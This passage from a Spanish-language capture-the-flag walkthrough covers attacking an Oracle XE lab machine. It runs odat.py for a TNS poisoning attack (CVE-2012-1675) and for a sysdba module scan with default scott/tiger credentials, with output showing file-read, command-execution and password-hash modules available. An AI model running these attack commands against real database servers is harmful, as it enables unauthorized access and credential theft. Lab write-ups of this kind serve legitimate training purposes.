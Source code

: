 * [Reporte oficial y completo de la vulnerabilidad](https://seclists.org/fulldisclosure/2012/Apr/204).
* [Oracle TNS Listener Envenamiento Remoto](https://shieldnow.co/2018/02/09/oracle-tns-listener-remote-poisoning/).
* [Vulnerabilidad crítica Oracle - CVE-2012-1675](https://blog.segu-info.com.ar/2012/05/vulnerabilidad-critica-y-parche-para.html).

...

Después de un rato jugando con la herramienta `odat.py` y su apartado llamado [**tnspoison**](https://github.com/quentinhardy/odat/wiki/tnspoison) que está relacionado con este CVE, no logramos hacerlo funcionar, lo ejecutamos, abrimos **Wireshark**, vemos los paquetes que pasan pero nada más.

```bash
❭ python3 odat.py tnspoison -s 10.10.10.82 -d XE --poison

[1] (10.10.10.82:1521): Local proxy on port 1522 and TNS poisoning attack to 10.10.10.82:1521 are starting. Waiting for connections...
```

Al darle a la ayuda propia del script vemos la opción `--sysdba`, la que permite ejecutar todos los procesos como administradores de la base de datos. Como vimos que anteriormente nos dejó entrar mediante `sqlplus` como **sysdba**, podríamos "volver a empezar" pero ahora con ese parámetro de más, quizás obtengamos nueva info.

El primero módulo (como lo dicen ellos) a usar con `odat.py` seria **all**, para validar que <modulos> están disponibles y empezar a jugar con la [Wiki](https://github.com/quentinhardy/odat/wiki/tnspoison) entre cada uno.

```bash
❭ python3 odat.py all -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba
[+] Checking if target 10.10.10.82:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Testing all authenticated modules on sid:XE with the scott/tiger account 
[2.1] UTL_HTTP library ?
[+] OK
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
[+] OK
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
[2.6] DBMSSCHEDULER library ?
[+] OK
[2.7] CTXSYS library ?
[+] OK
[2.8] Hashed Oracle passwords ?
[+] OK
[2.9] Hashed Oracle passwords from history?
[+] OK
[2.10] DBMS_XSLPROCESSOR library ?
[+] OK
[2.11] External table to read files ?
[+] OK
[2.12] External table to execute system commands ?
[+] OK
[2.13] Oradbg ?
[-] KO
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
```